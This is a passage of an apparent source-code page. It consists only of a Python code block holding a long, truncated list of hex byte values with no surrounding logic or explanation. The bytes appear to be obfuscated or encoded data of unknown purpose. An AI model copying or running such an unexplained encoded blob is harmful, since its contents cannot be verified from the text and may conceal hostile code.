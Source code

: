 ```python
x5e,0x7b,0x6c,0x7c,0x2f,0x48,0x6c,0x76,0x62,0x4b,0x6e,0x6b,0x62,0x70,0x64,0x51,0x74,0x75,0x7c,0x6a,0x7e,0x40,0x48,0x61,0x76,0x62,0x31,0x52,0x76,0x60,0x74,0x2b,0x06,0x01,0x0e,0x01,0x2e,0x01,0x04,0x05,0x0c,0x3c,0x34,0x15,0x02,0x16,0x45,0x3e,0x1a,0x0c,0x18,0x3c,0x0d,0x1d,0x0b,0x17,0x31,0x02,0x10,0x00,0x12,0x27,0x1a,0x2c,0x3f,0x3f,0x28,0x3c,0x2a,0x10,0x0f,0x30,0x22,0x36,0x24,0x6b,0x05,0x36,0x2a,0x2d,0x28,0x3d,0x2b,0x02,0x0a,0x2f,0x38,0x20,0x73,0x14,0x30,0x22,0x36,0x17,0x30,0xc4,0xdf,0xea,0xdb,0xc1,0xd8,0xdf,0xc8,0xd0,0xe0,0xc5,0xcf,0xd2,0xe5,0xd6,0xca,0xcd,0xc8,0xdd,0xcb,0xe2,0xea,0xcf,0xd8,0xc0,0x93,0xf4,0xd0,0xc2,0xd6,0xf7,0xdd,0xef,0xef,0xe7,0xfd,0xcd,0xe7,0xe9,0xe9,0xed,0xf7,0xdc,0xd4,0xf5,0xe2,0xf6,0xa5,0xde,0xfa,0xec,0xf8,0xd1,0xed,0xfe,0xf4,0xe6,0xe6,0xfd,0xde,0xe4,0xf5,0xfd,0xe1,0x9f,0x86,0xb4,0xbc,0x9d,0x8a,0x9e,0xcd,0xa6,0x82,0x94,0x80,0xb5,0x97,0x91,0x91,0x94,0x92,0x93,0xaa,0x8e,0x8a,0x88,0x93,0x9b,0x98,0xac,0xa2,0x86,0x82,0x80,0x9b,0xa3,0xa0,0x94,0x9c,0xbd,0xaa,0xbe,0xed,0x86,0xa2,0xb4,0xa0,0x85,0xa8,0xa9,0xaa,0xbe,0xb4,0xf8,0x9d,0xac,0xbe,0xbb,0xb2,0xbc,0x90,0xbf,0xbc,0xb9,0xb3,0xbb,0x89,0x6e,0x59,0x49,0x4e,0x41,0x41,0x70,0x78,0x51,0x46,0x52,0x01,0x62,0x46,0x50,0x44,0x6c,0x52,0x4e,0x58,0x52,0x5b,0x55,0x6b,0x5b,0x45,0x51,0x5d,0x52,0x5e,0x68,0x60,0x79,0x6e,0x7a,0x29,0x4a,0x6e,0x78,0x6c,0x41,0x6a,0x74,0x73,0x6f,0x68,0x47,0x64,0x6e,0x7a,0x74,0x70,0x70,0x7e,0x5b,0x6f,0x7d,0x66,0x60,0x4d,0x55,0x7e,0x60,0x67,0x03,0x04,0x34,0x3c,0x1d,0x0a,0x1e,0x4d,0x26,0x02,0x14,0x00,0x55,0x51,0x54,0x45,0x38,0x09,0x17,0x0e,0x0d,0x1a,0x0e,0x4e,0x44,0x43,0x33,0x19,0x04,0x18,0x19,0x10,0x16,0x08,0x20,0x3b,0x21,0x22,0x29,0x11,0x17,0x30,0x25,0x33,0x66,0x03,0x25,0x31,0x3b,0x0e,0x2a,0x38,0x30,0x2a,0x1f,0x32,0x28,0x1e,0x35,0x35,0x3f,0x36,0x08,0x00,0xd8,0xca,0xc6,0xf5,0xfb,0xdc,0xc9,0xdf,0x82,0xe7,0xc1,0xd5,0xc7,0xeb,0xcd,0xc0,0xd8,0xda,0xd7,0x99,0xfc,0xcd,0xd3,0xca,0xc1,0xd6,0xc2,0xdd,0xdf,0xd2,0xd6,0xd4,0xe5,0xd7,0xdd,0xfa,0xeb,0xfd,0xac,0xc9,0xe3,0xf7,0xe1,0xc4,0xea,0xe2,0xe9,0xe0,0xf4,0xef,0xeb,0xb9,0xdc,0xed,0xf3,0xea,0xe1,0xf6,0xe2,0xd4,0xfa,0xf2,0xf9,0xf0,0x84,0x9f,0x9b,0xc9,0xac,0x9d,0x83,0x9a,0x91,0x86,0x92,0xbd,0xb3,0x94,0x81,0x97,0xda,0xbf,0x99,0x8d,0x9f,0xba,0x8c,0x94,0x91,0xd3,0xa0,0x83,0x9f,0x81,0x95,0x96,0xb3,0x8e,0xb8,0xa0,0xad,0xef,0x9c,0xbf,0xab,0xb5,0xa1,0xa2,0xbf,0xe7,0x86,0xb7,0xb5,0xac,0xab,0xbc,0xac,0x83,0x89,0xae,0xb7,0xa1,0xf0,0x95,0xb7,0xa3,0xb5,0x96,0x45,0x48,0x4b,0x46,0x4d,0x6c,0x43,0x4e,0x61,0x4c,0x43,0x7d,0x64,0x55,0x4b,0x52,0x49,0x5e,0x4a,0x65,0x6b,0x4c,0x59,0x4f,0x12,0x77,0x51,0x45,0x57,0x64,0x58,0x50,0x63,0x7b,0x66,0x60,0x7c,0x2f,0x3a,0x4b,0x67,0x6d,0x72,0x68,0x74,0x27,0x4d,0x6b,0x79,0x47,0x4b,0x75,0x7b,0x76,0x6c,0x73,0x7b,0x61,0x25,0x4d,0x65,0x72,0x60,0x61,0x03,0x05,0x0f,0x35,0x03,0x00,0x08,0x18,0x0e,0x06,0x13,0x3d,0x25,0x0f,0x16,0x0a,0x17,0x12,0x0d,0x14,0x28,0x16,0x19,0x0a,0x17,0x01,0x21,0x38,0x26,0x57,0x27,0x00,0x38,0x2d,0x19,0x00,0x1e,0x6f,0x1f,0x38,0x30,0x25,0x1c,0x14,0x35,0x22,0x36,0x65,0x1e,0x3a,0x2c,0x38,0x1d,0x30,0x33,0x2a,0x3d,0x3d,0x13,0x3e,0x39,0x20,0x3b,0x3b,0xf6,0xe8,0xc7,0xc6,0xd9,0xc0,0xc2,0xf1,0xf7,0xd0,0xc5,0xd3,0x86,0xe3,0xc5,0xd1,0xdb,0xfa,0xe8,0xe9,0xfa,0xfe,0xe8,0xfc,0xee,0xf0,0xdf,0xc3,0xd3,0xf1,0xe0,0xe5,0xd6,0xf8,0xe1,0xfd,0xeb,0xfc,0xa2,0xe4,0xe6,0xfb,0xc8,0xca,0xc3,0xde,0xdb,0xc6,0xcf,0xc9,0xca,0xdc,0xd0,0xcb,0xc3,0xc8,0xc1,0xd6,0xc2,0xcd,0xc5,0xf8,0xf2,0xe1,0x9d,0x8a,0x9a,0x8c,0xb2,0xa9,0xb8,0xbd,0xb5,0x82,0x92,0x84,0xba,0xa4,0xab,0xb7,0xbf,0xbd,0xac,0xa9,0xa2,0xac,0x95,0x89,0x97,0x80,0xac,0xb9,0x99,0x84,0x80,0xbd,0x81,0x8e,0x91,0x96,0x8d,0x9a,0x9e,0x9f,0x87,0x8d,0x94,0x9e,0x93,0x94,0x81,0x97,0x89,0xb4,0xbe,0xad,0xa9,0xbe,0xae,0xb8,0x94,0x87,0x80,0x86,0xb7,0xa5,0xb1,0x96,0x65,0x79,0x6d,0x6f,0x7a,0x7f,0x7f,0x44,0x56,0x46,0x53,0x71,0x49,0x55,0x50,0x70,0x49,0x5e,0x4a,0x69,0x69,0x7c,0x53,0x4f,0x57,0x75,0x64,0x61,0x41,0x52,0x56,0x45,0x6b,0x65,0x6d,0x65,0x22,0x2d,0x7f,0x60,0x76,0x73,0x66,0x75,0x76,0x52,0x56,0x49,0x20,0x3b,0x38,0x39,0x3e,0x3f,0x3c,0x48,0x61,0x76,0x62,0x7f,0x77,0x7a,0x71,0x2f,0x4a,0x3b,0x09,0x1a,0x1d,0x18,0x03,0x1f,0x06,0x59,0x40,0x20,0x16,0x17,0x08,0x0c,0x19,0x1a,0x0c,0x10,0x11,0x11,0x46,0x5d,0x27,0x21,0x3c,0x4b,0x23,0x04,0x11,0x07,0x24,0x2a,0x25,0x2c,0x74,0x1f,0x2d,0x3e,0x31,0x34,0x2f,0x33,0x22,0x7d,0x05,0x35,0x2a,0x37,0x31,0x3a,0x3f,0x2b,0x35,0x32,0x3c,0x69,0x00,0x06,0x09,0x57,0x3e,0x7b,0xd8,0xc4,0xcc,0xc8,0xdc,0xdb,0xc9,0xed,0xcf,0xcc,0xd3,0xc4,0xc1,0x89,0xc7,0xca,0xd7,0x95,0xd5,0xc1,0xfb,0xd1,0xd9,0xcf,0xdd,0x81,0x80,0x80,0x8f,0xf7,0xd9,0xd4,0xe3,0xe7,0xa6,0xe4,0xe1,0xfc,0xe9,0xea,0xac,0xe0,0xef,0xec,0xa8,0xea,0xfc,0xec,0xf7,0xfa,0xff,0xfc,0xb1,0xf5,0xec,0xfa,0xa8,0xc9,0xff,0xff,0xf3,0xb9,0xdd,0xf1,0x8f,0x85,0x9c,0x80,0x88,0x86,0x89,0x9f,0xbe,0x97,0x8d,0x91,0xa1,0xc9,0x90,0x88,0x8a,0xde,0x8d,0x8b,0x92,0x94,0x99,0x84,0xd7,0xde,0x96,0xd1,0xaa,0xb3,0x95,0x81,0xab,0x97,0x9c,0xa6,0xbc,0x93,0xb8,0xa2,0xb0,0xb1,0xa3,0xb1,0xfb,0xe2,0x94,0xaa,0xa9,0xaf,0x8d,0x8b,0x92,0xfa,0xed,0xef,0xe5,0xfd,0xe0,0xff,0xe6,0xf9,0xe5,0x85,0x65,0x78,0x7c,0x02,0x0b,0x1d,0x6e,0x4c,0x52,0x53,0x4c,0x48,0x45,0x46,0x50,0x4c,0x55,0x55,0x17,0x41,0x13,0x48,0x4b,0x4a,0x1f,0x55,0x5f,0x43,0x5b,0x1a,0x41,0x47,0x66,0x6e,0x66,0x6a,0x61,0x6b,0x69,0x69,0x24,0x25,0x61,0x6c,0x76,0x3c,0x38,0x23,0x76,0x6f,0x23,0x27,0x38,0x78,0x68,0x26,0x34,0x62,0x65,0x7e,0x62,0x2c,0x57,0x7a,0x1a,0x02,0x0d,0x0d,0x4e,0x3b,0x09,0x15,0x16,0x59,0x40,0x5d,0x00,0x08,0x0a,0x11,0x5a,0x18,0x17,0x15,0x11,0x0d,0x41,0x5f,0x51,0x43,0x40,0x13,0x47,0x15,0x15,0x57,0x74,0x77,0x2a,0x77,0x15,0x6f,0x70,0x62,0x20,0x7d,0x60,0x7d,0x24,0x79,0x19,0x79,0x75,0x39,0x66,0x79,0x62,0x39,0x33,0x33,0x26,0x73,0x33,0x3e,0x3a,0x38,0x26,0x68,0x88,0x88,0x98,0x99,0x9e,0x9f,0x9c,0x9d,0x80,0x9d,0x88,0x88,0x9a,0x88,0xc2,0xca,0xd4,0xcf,0x86,0x85,0x91,0xd9,0xd3,0xd3,0xc6,0x8d,0xf6,0xd0,0xda,0xc4,0xd1,0x89,0xec,0xe4,0xe6,0xfd,0xae,0xec,0xe3,0xe1,0xed,0xf1,0xbd,0xa3,0xa5,0xb7,0xb4,0xe7,0xfb,0xad,0xae,0xbb,0xa0,0xe4,0xde,0xdc,0xd1,0xd8,0xed,0xad,0xb9,0xf1,0xfb,0xfb,0x9e,0xd5,0xd4,0xc6,0x
```